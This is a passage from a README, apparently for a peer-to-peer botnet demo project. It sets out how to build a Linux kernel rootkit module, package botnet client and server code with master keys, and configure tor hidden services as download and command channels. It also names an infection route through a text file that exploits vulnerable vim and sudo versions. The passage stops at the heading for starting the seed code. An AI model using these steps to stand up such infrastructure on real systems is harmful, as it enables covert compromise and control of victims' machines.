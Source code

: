 ## Assumptions

- When sending a message over the botnet, all victims will be up
- The user we want to infect have vim and sudo installed with the versions in the Research Environment section

## Set up the Demo

To execute the demo, you will need to set up a seed machine from where the victims will download the code to execute the P2P server and client side logic. Some files will need to be created: the rootkit.ko to load a Loadable Kernel Module to the Linux kernel and a txt file that will infect the victim on the event that it is opened.

At this point, clone the repository and enter to the main folder if you have not already. You should find yourself in `.../p2p-botnet/`.

### Set up the seed machine

To prepare the seed machine we will need to performe some steps.

#### Generate the Loadable Kernel Module File

To use the rootkit we will first need to create the rootkit.ko file that will be loaded into the kernel.

1. Copy the `src/rootkit/`  folder into the type of machine you want to infect (for the purposes of this demo we want to infect machines with an Ubuntu distribution installed on it and Linux kernel 5.3.0-45 generic as stated in the [Development Environment](#development-environment) section)

#### Generate code folder to copy in the seed

The relevant botnet client/server code must be saved in a folder along with
the Loadable Kernel Module, the public key to be used by the botnet victims
and the private key to be used by the master (so just the master of the botnet
can access the victims).

In a machine with the cloned repository:

1. `./scripts/build_demo.sh`
2. Copy `rootkit.ko` to `demo/rootkit_demo/public/source/`
3. Now you should have a folder `demo/rootkit_demo/` with all the code necessary and a 
private key `demo/private_key` that is paired with the public key the victims will have.

#### Set up tor and libraries

With all the required code and files generated, we can now start to prepare the seed machine.

1. `sudo apt install tor python3-socks`
2. `echo "HiddenServiceDir /var/lib/tor/hidden_download/" | sudo tee -a /etc/tor/torrc; echo "HiddenServicePort 40001 127.0.0.1:40000" | sudo tee -a /etc/tor/torrc; echo "HiddenServiceDir /var/lib/tor/hidden_communication/" | sudo tee -a /etc/tor/torrc; echo "HiddenServicePort 50001 127.0.0.1:50000" | sudo tee -a /etc/tor/torrc`
3. `sudo systemctl restart tor`

#### Start seed code
